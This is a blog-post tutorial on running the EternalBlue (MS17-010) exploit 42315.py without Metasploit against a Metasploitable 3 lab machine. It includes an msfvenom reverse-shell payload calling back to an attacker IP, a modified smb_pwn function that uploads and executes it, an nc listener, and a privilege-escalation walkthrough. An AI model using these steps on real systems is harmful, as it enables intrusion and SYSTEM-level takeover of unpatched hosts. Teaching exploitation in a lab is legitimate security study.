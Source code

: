 ```yaml
---
layout: post
title:  "Eternal Blue without Metasploit"
date:   2019-10-15 18:05:55 +0300
image:  EternalBlue/title.png
author-name: strik1r
tags:   [Eternal, Blue, Without Metasploit, Exploit modification]
---
```


<h2>Prologue:</h2>
I wanted to create a Without Metasploit series. Here we would look and modify famous exploits without using the Metasploit framework. What would be the best way to start then with Eternal Blue?
<h3> Environment </h3>
The easiest way to find an environment to test on, is to get Hack The Box VIP and attack Blue.
Setting up your lockal vm, try Metasploitable 3 [Metasploitable3](https://github.com/rapid7/metasploitable3) 
I will go with the Metasploitable now.
Metasploitable ip: 10.0.2.15

Attacker
There are a few things you need to set up on your attacker machine too. First install pip, then impacket. Attacker IP: 10.0.2.4
```
sudo apt-get update
sudo apt install python-pip
git clone https://github.com/SecureAuthCorp/impacket
cd impacket-master
pip install .
```
From here it should work just fine.
<h3> The Exploit </h3>
If you do a ```searchsploit eternalblue``` you will get the exploit 42315.py
![searchsploit](/img/EternalBlue/searchspolit.png)
Copy it to our directory ```searchsploit -m 42315.py```

Now let's start to look at what do we have in this file.

first we can see the lines:
```from impacket import smb, smbconnection
from mysmb import MYSMB```
We already have impacket but what about mysmb? With a little googleing we can find that too.
```wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py```

Now we can go deeper.

```USERNAME = ''
PASSWORD = ''```
We should change this if we find valid smb credentials. Going a little be down, there is a nicely named function find_named_pipe. This means that we
don't need to run other exploit/scanning to find our named pipes because this is already included in the exploit itself. However checking the first lines
of the function reveals the default pipes that the function will search for. ```pipes = [ 'browser', 'spoolss', 'netlogon', 'lsarpc', 'samr' ]``` you can expend
this list if you did not succed for the first try.


<h4>Sample Request:</h4>
First, let's run it agains the target.
[FAIL](/img/EternalBlue/fail.png)
This did not go very well. No named Pipe was found. We can add more possible named pipe to our list, and give it another try. It failed again. From here we have another option. 
If we know valid credentials, then we could try to use it. Adding vagrant/vargrant to the Username Password section.
```USERNAME = 'vagrant'
PASSWORD = 'vagrant'```
Running the code it will execute and create C:\pwned.txt on the machine.
[PWNED](/img/EternalBlue/pwned.PNG)
We can log in and check the file. It should be there. That is ok but vagrant is an admin user. If we have credentials then we probably do not need this exploit at all.

<h3> Eternal Blue as Privilege escalation </h3>
Let's create a test user with test as password. User test should not be admin this time. By loging in as test, you can see that you are unable to create c:\pwned.txt.
[testUser](/img/EternalBlue/test.PNG)
Adding these credentials to our exploit and running it, will once again create the file pwned.txt This means that we have non-admin credentials but we could still execute commands as admin.
We can see on the included picture that user test cannot delete the file.
[testUser](/img/EternalBlue/delete.PNG)
<h3> Modifying the exploit</h3>
In case you can find a working pipe name or use credentials, creating a file on the target machine may not be that usefull for us. Let's modify the exploit code to get a reverse shell.
First let's find the exploit in the code. looking in the code, we can find a function called smb_pwn.
```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	```
Let's look at it line by line. First line will create a smb connection. This is what we eill use to interact with the machine.
The next line is a print, this will just write a line for us so we know what is currently happening.
Then we will connect to the Driver C so we can egn our modification there. This is saved in a variable so in the next line we can finaly create a file called pwned.txt.
Finaly we will close the connection.
<h3> Upload shell</h3>
Let's create our reverse shell first:
```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 -f exe > shell-x86.exe```
Then modify the code so it will upload and run our exploit
```
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	smb_send_file(smbConn, 'shell-x86.exe', 'C', '/test.exe')
	service_exec(conn, r'c:\test.exe')
```
The function now only has 3 lines. First we create an smb connection. Then we send our exploit to the target, it will be created in C:/test.exe. Then in the last line we will execute our code and get a reverse shell on our machine on port 443.
First let's start a listener on our attacker machine then execute our code.
```nc-lvnp 443```
[UploadExploit](/img/EternalBlue/uploadExploit.PNG)
We can see that the exploit run and we got back a reverse shell as System.
<br>


link[@WarMarx](https://twitter.com/\_WarMarX\_) 
